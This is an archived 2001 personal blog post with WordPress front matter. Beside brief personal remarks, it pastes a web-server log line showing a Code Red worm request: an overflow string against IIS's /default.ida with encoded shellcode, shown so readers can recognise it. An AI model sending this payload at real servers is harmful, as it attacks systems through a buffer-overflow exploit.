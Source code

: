 ```yaml
---
layout: post
title: Drunk and disorderly
date: 2001-07-20 18:07:53.000000000 +02:00
categories:
- General
tags: []
status: publish
type: post
published: true
meta: {}
author:
  login: shanson
  email: papascott-wp@gmail.com
  display_name: PapaScott
  first_name: Scott
  last_name: Hanson
# excerpt: !ruby/object:Hpricot::Doc
  # options: {}
---
```

<p>In a back-to-the-basics action, Mama is this evening working the closing shift at one of her inner-city restaurants. I'm sure she'd appreciate some unruly customers at the Dammtor train station around midnight tonight, if you happen to be in the area.</p>
<p>I wish I could be at the Metrodome for the 4-game Mariners-Twins series this weekend.</p>
<pre>193.xxx.118.xx - - [19/Jul/2001:14:42:57 -0400] 
"GET /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858
%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190
%u00c3%u0003%u8b00%u531b%u53ff%u0078%u0000
%u00=a  HTTP/1.0" 404 205</pre>
<p>... just in case you're wondering what <a href="http://news.cnet.com/news/0-1003-200-6604515.html">code red</a> looks like. Then again, I'm sure most webmasters have several dozen of these in their log files.</p>
